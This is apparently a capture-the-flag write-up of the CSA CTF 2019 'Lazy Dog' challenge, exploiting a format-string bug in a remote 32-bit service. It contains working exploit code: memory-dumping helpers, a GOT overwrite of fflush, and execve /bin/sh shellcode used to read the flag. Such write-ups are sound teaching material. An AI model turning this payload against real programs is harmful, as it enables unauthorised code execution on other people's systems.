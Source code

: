 ```yaml
---
layout: post
title: CSA CTF 2019 - Lazy Dog challenge
---
```


This binary exploitation challenge was the hardest in my opinion. You have no binary to analyze, just an IP/port to connect to.

## First steps

The service asks for a name, then outputs some strings:
```
$ nc 35.237.220.217 1339
Name: test 123

8
A quick brown fox jumps over the lazy dog
*********************[...]*****
9
```

We are unable to crash it... but if we input enough characters (136), they start to appear in a second buffer, the one that prints *** initially. It also outputs some debugging message, indicating the return address of the current function.

```
$ python -c 'print "A" * 200' | nc 35.237.220.217 1339
Name: [DEBUG] ret: 0x8048702

8
A quick brown fox jumps over the lazy dog
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

9
```

Let's check if we can use some format strings:
```
$ python -c 'print "A" * 136 + "%p "*20' | nc 35.237.220.217 1339
Name: [DEBUG] ret: 0x8048702

8
A quick brown fox jumps over the lazy dog
0x8 0xf7fc9000 0x80485a2 0xffffdcc8 0xf7fedff0 0x9 0x8 0x804b008 0x804a000 
0xffffdcc8 0x8048702 0x804b008 0x804b090 0xf7fc95a0 0x8048654 0x8 
0xf7ff00f6 0x41414141 0x41414141 0x41414141 

9
```

Note that the 18th parameter points to our buffer. We'll use this later on for dumping and writing.

## Dumping the process memory

We have some good primitive there, but we need something more to analyze. We know that the return address for the current function is `0x8048702`, a 32bit binary. We'll dump `0x2000` bytes starting at `0x8048000`, which is probably the base address.

To do that, we'll use format string vulnerability. We'll create our payload with the address we want to read, pad the first stage, then make the second buffer to print `%18$s`, then write the results to the destination file.

There are some issues when sending some bytes (`\x00` and `\x0a`). We'll have to live without them.

```python
# Function that dumps bytes starting at address 
def rawdump(address):
    io = start()

    payload = pack(address)             # Pack the pointer to the address
    payload = payload.ljust(136, "A")   # Pad until second buffer

    payload+= "%18$s"                   # The format for the printf

    io.sendline(payload)
    io.recvline()
    io.recvline()
    io.recvline() # 8
    io.recvline() # A quick brown fox...
    res = io.recvline()[:-1] # Read response and remove final \n
    try:
        io.recvline() # If we can read this line, we have a proper response
        return res
    except:
        res = None

    io.close()
    return res
```

After loading the file in IDA, we have something very similar to the original binary. The import table is broken, but we can figure it out dumping the GOT table for those functions using the `rawdump()` function above. It helps knowing the libc used, it's the same one from other challenge.

Once we rename those labels, we get this:

![IDA Screenshot]({{site.base_url}}/files/csactf2019/vuln_function.png)

We can, for example, overwrite the GOT of `printf` or `fflush`, that are called after the vulnerable `printf`. We need to figure out the address to overwrite, and where it should point.

## Dumping the stack

Let's try to get some stack pointers that we can use. It's the same method as before, but instead of supplying a pointer, we'll dump stack values as pointers (`%p`) and strings (`%s`). Here's the output of the `dumpstack.py` script:

```
Param 1 -        0x8 - None
Param 2 - 0xf7fc9000 - \xb0
Param 3 -  0x80485a2 - \x81_^\x1a
Param 4 - 0xffffdcc8 - 
Param 5 - 0xf7fedff0 - Z\x8b\x0c$\x89\x04$\x8bD$\x04_
Param 6 -        0x9 - None
Param 7 -        0x8 - None
Param 8 -  0x804b008 - OUR BUFFER AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA||||%8$s
Param 9 -  0x804a000 - \x9f\x0\x18?????
Param 10 - 0xffffdcc8 - 
```

The interesting parameter is 8. It's a pointer to our buffer. We can create a shell payload on that buffer, and try to jump to it. It's in the heap, so let's hope it's executable. (It was on other 32bit challenges).

Here's what we need to do:
1. Send two pointers, to the low and high part of the fflush entry in the GOT. (8 bytes total)
2. Send the shellcode
3. Pad until the 2nd buffer
4. Write our buffer address (plus 8) in the fflush GOT.

   The value we want to write is `0x804b008+8 = 0x804b010`. We'll write it as two 16bit values. Starting with the smallest part `0x804`, make printf output that many bytes, then writing the count to the 19th parameter. Later, generate `0xb010 - 0x804` more characters, and write the overal count to the 18th parameter.

   In the end, the GOT entry for fflush will point to our shellcode on step 2.

Here's the final exploit, you can download the complete file later.

```python
io = start()

payload = pack(0x0804A010)      #fflush_got
payload+= pack(0x0804A010 + 2)  #fflush_got+2

# Append our shellcode: http://shell-storm.org/shellcode/files/shellcode-827.php
payload+= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad until it's 136 bytes
payload = payload.ljust(136, "A")

# write value 0x804 on parameter 19
payload+="%" + str(0x804) + "x" 
payload+="%19$hn"
# write value 0xb010 on parameter 18.   0xb010 - 0x804 = 0xa80c
payload+="%" + str(0xa80c) + "x" 
payload+="%18$hn"

io.sendline(payload)

io.sendline("echo; cat flag.txt")

io.interactive()
```

## Download

* [exploit.py]({{site.base_url}}/files/csactf2019/exploit.py)
* [dumpmem.py]({{site.base_url}}/files/csactf2019/dumpmem.py)
* [dumpstack.py]({{site.base_url}}/files/csactf2019/dumpstack.py)
* [lazydog.elf]({{site.base_url}}/files/csactf2019/lazydog.elf) The original binary running on the server
* [libc-2.23.so]({{site.base_url}}/files/csactf2019/libc-2.23.so) 

## Conclusions

This challenge was quite hard for me, but it could have been much worse: NX on the heap, ASLR enabled, PIE, ... :)

It was fun, nonetheless.